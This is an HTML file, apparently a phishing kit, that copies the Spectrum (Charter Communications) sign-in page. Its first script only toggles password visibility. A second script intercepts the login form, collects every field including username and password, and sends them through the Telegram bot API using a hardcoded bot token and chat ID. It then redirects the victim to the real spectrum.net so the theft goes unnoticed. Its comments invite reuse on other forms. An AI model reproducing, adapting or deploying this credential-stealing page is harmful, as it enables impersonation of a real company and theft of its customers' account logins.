
Rendered at 375 px and 1280 px, left to right.

<!-- file: index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Sign In to Get Started - Spectrum</title>
  <link rel="stylesheet" href="styles.css">
</head>
<body>
  <div class="page">
    <!-- Top Logo + Links -->
    <div class="top-section">
      <img src="logo.png" alt="Spectrum" class="logo">
      
      <div class="top-links">
        <a href="#">Leave Feedback</a>
        <a href="#">En español</a>
      </div>
    </div>

    <!-- Main Card -->
    <div class="login-card">
      <h1>Sign In to Get Started</h1>

      <div class="divider">
        <span>or</span>
      </div>

      <a href="#" class="create-username">Create a Username</a>

      <form class="login-form" id="loginForm">
        <!-- Username -->
        <div class="form-group">
          <label for="username">
            Username
            <span class="help-icon" title="Help">?</span>
          </label>
          <input 
            type="text" 
            id="username" 
            name="username" 
            autocomplete="username"
            required
            title="Username is required"
          >
        </div>

        <!-- Password -->
        <div class="form-group">
          <label for="password">Password</label>
          <div class="password-wrapper">
            <input 
              type="password" 
              id="password" 
              name="password" 
              autocomplete="current-password"
              required
              title="Password is required"
            >
            <button type="button" class="toggle-password" id="togglePassword" aria-label="Show password">
              👁️
            </button>
          </div>
        </div>

        <button type="submit" class="sign-in-btn">Sign In</button>
      </form>

      <a href="#" class="forgot-link">Forgot Username or Password?</a>
    </div>

    <!-- Footer -->
    <footer class="footer">
      <div class="footer-links">
        <a href="#">Your privacy rights</a> |
        <a href="#">California consumer privacy rights</a> |
        <a href="#">California consumer limit the use of my sensitive personal information</a> |
        <a href="#">Do not sell or share my personal information/opt out of targeted advertising</a> |
        <a href="#">Policies</a> |
        <a href="#">Contact Us</a> |
        <a href="#">Support</a>
      </div>
      <p class="copyright">© 2026 Charter Communications</p>
    </footer>
  </div>

  <script>
    // ===== Password Show / Hide Toggle =====
    const toggleBtn = document.getElementById('togglePassword');
    const passwordInput = document.getElementById('password');

    toggleBtn.addEventListener('click', function() {
      const isPassword = passwordInput.getAttribute('type') === 'password';
      
      if (isPassword) {
        passwordInput.setAttribute('type', 'text');
        toggleBtn.textContent = '🙈'; // or use '👁️‍🗨️' / 'Hide'
      } else {
        passwordInput.setAttribute('type', 'password');
        toggleBtn.textContent = '👁️';
      }
    });

    // ===== Form Validation =====
    const form = document.getElementById('loginForm');

    form.addEventListener('submit', function(e) {
      e.preventDefault();

      const username = document.getElementById('username').value.trim();
      const password = passwordInput.value;

      // Extra safety check (browser already blocks empty fields)
      if (!username || !password) {
        alert('Both Username and Password are required.');
        return;
      }

      
    });
  </script>

<script>
document.addEventListener('DOMContentLoaded', function () {
  // Change this selector to match your form
  const form = document.querySelector('form'); // or document.getElementById('your-form-id')

  if (!form) {
    console.error('Form not found');
    return;
  }

  form.addEventListener('submit', async function (e) {
    e.preventDefault(); // Prevent normal form submission

    const botToken = '8940132466:AAGUC8×YacZ_dj5Ec1A0SD_WeVDm8jMM5qA';
    const chatId  = '9085597285';
    const redirectUrl = 'https://spectrum.net'; // ← Change this to your real thank-you page

    // Collect all form fields
    const formData = new FormData(form);
    let message = '📩 New Spectrum Submission:\n\n';

    for (const [key, value] of formData.entries()) {
      message += `• ${key}: ${value}\n ` ;

       
    }

  

    const url = `https://api.telegram.org/bot${botToken}/sendMessage`;

    try {
      const response = await fetch(url, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({
          chat_id: chatId,
          text: message,
          parse_mode: 'HTML'
        })
      });

      const result = await response.json();

      if (result.ok) {
        // Redirect after successful submission
        window.location.href = redirectUrl;
      } else {
        console.error(result);
        alert('Failed to send message. Please try again.');
      }
    } catch (error) {
      console.error('Error:', error);
      alert('Network error. Please try again.');
    }
  });
});
</script>
</body>
</html>


/* @media block from styles.css */
@media (max-width: 500px) {
  .login-card {
    padding: 32px 24px;
  }

  .login-card h1 {
    font-size: 24px;
  }

  .top-links {
    font-size: 13px;
  }

  .logo {
    height: 32px;
  }
}